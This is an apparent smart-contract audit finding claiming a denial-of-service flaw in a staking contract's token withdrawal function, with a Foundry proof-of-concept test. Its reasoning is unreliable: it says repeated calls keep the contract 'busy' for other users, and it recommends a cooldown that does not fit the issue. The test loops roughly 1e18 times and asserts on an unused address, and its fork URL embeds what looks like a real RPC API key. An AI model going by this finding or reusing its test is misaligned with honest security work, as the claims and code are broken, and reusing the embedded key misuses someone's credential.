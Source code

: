 Raspy Silver Toad

high

# [H-2] Smart Contract Issue: DoS Vulnerability in Token Withdrawal Function



## Summary
The smart contract in question has a potential Denial of Service (DoS) vulnerability. An attacker can stake a large amount of tokens each in very small quantities, thereby increasing the size of the lock array. By calling the `withdrawAllUnlockedToken` function in a loop without calling `exitLateById` , the contract could be kept busy with the same transaction, checking the array repeatedly.

## Vulnerability Detail
The vulnerability lies in the `withdrawAllUnlockedToken` function of the contract. This function retrieves a list of locks for the user and checks if the unlock time is less than the current block timestamp. If it is, the function adds up the amount from all unlocked balances and removes the lock from the list. However, an attacker can exploit this by staking a large number of tokens in small quantities and calling this function in a loop, which would make contract executing this function for the attacker contract almost all the possible time. This could potentially keep the contract busy, leading to a Denial of Service (DoS) attack.

## Impact
The impact of this vulnerability is significant. A successful DoS attack could make the smart contract unresponsive, preventing other users from interacting with it. This could affect the overall functionality of the contract and could potentially lead to loss of trust among the users.

## Code Snippet
```javascript
pragma solidity 0.8.23;

import "forge-std/Test.sol";
import {Lock} from "../src/Lock.sol";
import {LockList} from "../src/libraries/LockList.sol";
import "forge-std/console.sol";
import {MockToken} from "../src/mock/MockToken.sol";
/// @title Deposit Tests for Lock
/// @dev This contract implements tests using Foundry's test framework to simulate various deposit scenarios and reward distributions.
contract DepositTest is Test {
Lock lock;
    LockList locklist;
    address deployer;
    address user1;
    address user2;
    address user3;
    address user4;
    address user5;
    MockToken _stakingToken;
    MockToken _rewardToken;

    uint256[] lockPeriod;
    uint256[] lockMultiplier;
    address[] rewardTokens;




    /// @notice Tests simple deposit functionality and correct reward allocation
    /// @dev Simulates three users making deposits under different lock types and checks correct reward distribution after rewards are added.
    function setUp() public {
        user1 = vm.addr(1);
     
        deployer = vm.addr(9999999);
        uint256 forkId = vm.createFork("https://eth-mainnet.g.alchemy.com/v2/VZH1EtzO3RVWYSXs523zfhFzlO6KHnr6");
        vm.selectFork(forkId);

        vm.startPrank(deployer);
        lock = new Lock();
        locklist = new LockList(deployer);
        // transfer ownership of locklist
        lock.initialize(address(locklist), 15000, 35000, deployer);
        _stakingToken = new MockToken("stakingToken", "stkToken", 18);
        _rewardToken = new MockToken("rewardToken", "reward", 18);
        rewardTokens.push(address(_rewardToken));

        lock.setStakingToken(address(_stakingToken));
        lock.addReward(address(_rewardToken));
        lockPeriod.push(30 days);
        lockPeriod.push(60 days);
        lockPeriod.push(360 days);
        lockMultiplier.push(1);
        lockMultiplier.push(1);
        lockMultiplier.push(1);
        lock.setLockTypeInfo(lockPeriod, lockMultiplier);
        _stakingToken.mint(user1, 1000e18);
       
        _rewardToken.mint(deployer, 10000e18);
        lock.setTreasury(address(0x4));
        locklist.transferOwnership(address(lock));
        vm.stopPrank();

        vm.prank(user1);
        _stakingToken.approve(address(lock), 10000e18);
       
    }
function test_dos() public {

        for(uint256 i =0;i<=1000e15;i++){
             vm.prank(user1);
        lock.stake(1,user1,0);

        }
         for(uint256 i =0;i<=1000e15;i++){
        vm.prank(user1);
        lock.withdrawAllUnlockedToken();}


        vm.prank(user1);
        assert( _stakingToken.balanceOf(user4) == 10000e3);
        // killed
        
    }

}
```
## Tool used

Manual Review

## Recommendation
It is recommended to add a mechanism that prevents the same user from calling the withdrawAllUnlockedToken function repeatedly in a short period of time. This could be achieved by implementing a cooldown  period or by limiting the number of times the function can be called within a certain timeframe. This would prevent the contract from being kept busy with the same transaction and protect it from potential DoS attacks.

